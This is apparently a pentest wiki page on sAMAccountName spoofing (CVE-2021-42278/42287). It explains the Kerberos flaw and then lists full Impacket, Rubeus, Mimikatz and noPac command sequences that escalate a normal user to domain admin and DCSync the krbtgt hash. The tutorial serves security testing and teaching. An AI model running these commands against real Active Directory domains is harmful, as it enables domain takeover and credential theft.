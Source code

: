 ```yaml
---
description: CVE-2021-42278 and CVE-2021-42287
authors: ShutdownRepo, lap1nou
---
```


# sAMAccountName spoofing

## Theory

In November 2021, two vulnerabilities caught the attention of many security researchers as they could allow domain escalation from a standard user.

### CVE-2021-42278 - Name impersonation

Computer accounts should have a trailing `$` in their name (i.e. `sAMAccountName` attribute) but no validation process existed to make sure of it. Abused in combination with CVE-2021-42287, it allowed attackers to impersonate domain controller accounts.

### CVE-2021-42287 - KDC bamboozling

When requesting a Service Ticket, presenting a TGT is required first. When the service ticket is asked for is not found by the KDC, the KDC automatically searches again with a trailing `$`. What happens is that if a TGT is obtained for `bob`, and the `bob` user gets removed, using that TGT to request a service ticket for another user to himself (S4U2self) will result in the KDC looking for `bob$` in AD. If the domain controller account `bob$` exists, then `bob` (the user) just obtained a service ticket for `bob$` (the domain controller account) as any other user :exploding_head:.

> [!TIP]
> > S4U2Self works for a user marked as sensitive for delegation and a member of the Protected Users group.
> >  
> > _(Elad Shamir in his article [Wagging the Dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#solving-a-sensitive-problem))_

## Practice

### Machine Account

The ability to edit a machine account's `sAMAccountName` and `servicePrincipalName` attributes is a requirement to the attack chain. The easiest way this can be achieved is by creating a computer account (e.g. by leveraging the [MachineAccountQuota](../builtins/machineaccountquota.md) domain-level attribute if it's greater than 0). The creator of the new machine account has enough privileges to edit its attributes. Alternatively, taking control over the owner/creator of a computer account should do the job.

The attack can then be conducted as follows.

1. Clear the controlled machine account `servicePrincipalName` attribute of any value that points to its name (e.g. `host/machine.domain.local`, `RestrictedKrbHost/machine.domain.local`)
2. Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing `$` -> [CVE-2021-42278](samaccountname-spoofing.md#cve-2021-42278-name-impersonation)
3. Request a TGT for the controlled machine account
4. Reset the controlled machine account `sAMAccountName` to its old value (or anything else different than the Domain Controller's name without the trailing `$`)
5. Request a service ticket with S4U2self by presenting the TGT obtained before -> [CVE-2021-42287](samaccountname-spoofing.md#cve-2021-42287-kdc-lookup)
6. Get access to the domain controller (i.e. [DCSync](../credentials/dumping/dcsync.md))

> [!NOTE]
> At the time of writing this recipe, some of the tools and features that allow exploitation of these vulnerabilities are still in development
> 
> * Impacket's getST: [https://github.com/SecureAuthCorp/impacket/pull/1202](https://github.com/SecureAuthCorp/impacket/pull/1202)
> * Impacket's renameMachine: [https://github.com/SecureAuthCorp/impacket/pull/1224](https://github.com/SecureAuthCorp/impacket/pull/1224)

::: tabs

=== UNIX-like

On UNIX-like systems, the steps mentioned above can be conducted with

* [krbelayx](https://github.com/dirkjanm/krbrelayx)'s (Python) addspn script for the manipulation of the computer's SPNs
* [Impacket](https://github.com/SecureAuthCorp/impacket)'s (Python) scripts (addcomputer, renameMachine, getTGT, getST, secretsdump) for all the other operations

```bash
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py --clear -t 'ControlledComputer$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -altservice 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
```

[noPac.py](https://github.com/Ridter/noPac) (Python) is an automated alternative that can be used to scan and abuse unpatched targets from a UNIX-like environnment.

```bash
scanner.py $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP
noPac.py $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP --impersonate Administrator -dump
```

> [!TIP]
> When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (10th of December, 2021), the SAMR method creates the account without SPNs, which allows to skip step #1.


=== Windows

On Windows systems, the steps mentioned above can be conducted with

* [PowerMad](https://github.com/Kevin-Robertson/Powermad/)'s (PowerShell) `New-MachineAccount` and `Set-MachineAccountAttribute` functions for the creation and manipulation of a computer account
* with [Rubeus](https://github.com/GhostPack/Rubeus) (C#) for the requests of Kerberos TGT and Service Ticket
* with [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) for the [DCSync](../credentials/dumping/dcsync.md) operation with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync)

```powershell
# 0. create a computer account
$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

# 1. clear its SPNs
Set-DomainObject -Identity 'ControlledComputer$' -Clear 'serviceprincipalname' -Verbose

# 2. rename the computer (computer -> DC)
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose

# 3. obtain a TGT
Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap

# 4. reset the computer name
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]

# 6. DCSync
(mimikatz) lsadump::dcsync /domain:domain.local /kdc:DomainController.domain.local /user:krbtgt 
```

[noPac](https://github.com/cube0x0/noPac) (C#) is an automated alternative that can be used to scan and abuse unpatched targets.

```powershell
noPac.exe scan -domain domain.local -user "lowpriv" -pass "lowpriv"
noPac.exe -domain mcafeelab.local -user "lowpriv" -pass "lowpriv" /dc dc.domain.local /mAccount pillemann11 /mPassword pilleman11 /service ldaps /ptt /impersonate Administrator
(mimikatz) lsadump::dcsync /domain:mcafeelab.local /all
```

:::


> [!WARNING]
> In the screenshot below, the `-spn` argument is used in the `getST.py` command. The option is to be replaced with `-altservice`.

![](<./assets/sAMAccountName spoofing example.png>)
sAMAccountName spoofing example{.caption}

### User account

An alternative to using computer accounts is to have enough permissions against a user account (cf. [Access Controls abuse](../dacl/)) to edit its `sAMAccountName` attribute (i.e. `WriteProperty` on the attribute, or on the « general information » or « public information » property sets, or `GenericWrite`, or `GenericAll`).

This attack path also requires knowledge of the user account password or hash (to obtain a TGT), which can be obtained (or set) in many ways (e.g. [Targeted Kerberoasting](../dacl/targeted-kerberoasting.md), [Shadow Credentials](shadow-credentials.md), [Forced Password Change](../dacl/forcechangepassword.md)).

Appart from the computer account creation and SPNs manipulation, the exploitation steps are the same as with a [machine account](samaccountname-spoofing.md#machine-account). If the account has SPNs that point to its name, they will have to be removed for the renaming operation to work.

## Resources

[https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)

[https://exploit.ph/more-samaccountname-impersonation.html](https://exploit.ph/more-samaccountname-impersonation.html)

[https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing](https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing)

[https://twitter.com/snovvcrash/status/1471829627765239816](https://twitter.com/snovvcrash/status/1471829627765239816)